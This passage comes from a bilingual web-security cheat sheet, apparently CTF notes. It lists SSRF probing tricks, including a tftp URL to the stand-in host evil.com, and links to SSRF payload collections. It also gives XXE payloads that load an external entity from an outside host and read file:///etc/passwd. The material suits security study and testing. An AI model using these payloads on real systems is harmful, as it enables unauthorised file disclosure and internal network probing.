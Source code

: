- Content-Length
    - 送超大Content-length
    - 连线hang住判断是否为HTTP Service

## UDP

- tftp
    - `tftp://evil.com:5566/TEST`
    - syslog

---

SSRF Bible:

https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit

Testing Payload:

https://github.com/cujanovic/SSRF-Testing


# XXE

## 内部实体

```xml
<!DOCTYPE kaibro[
    <!ENTITY param "hello">
]>
<root>&param;</root>
```

## 外部实体

- `libxml2.9.0`以后，预设不解析外部实体
- `simplexml_load_file()`旧版本中预设解析实体，但新版要指定第三个参数`LIBXML_NOENT`
- `SimpleXMLElement` is a class in PHP
    - http://php.net/manual/en/class.simplexmlelement.php

```xml
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "http://kaibro.tw/xxe.txt">
]>
<root>&xxe;</root>
```

```xml
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

### XXE on Windows
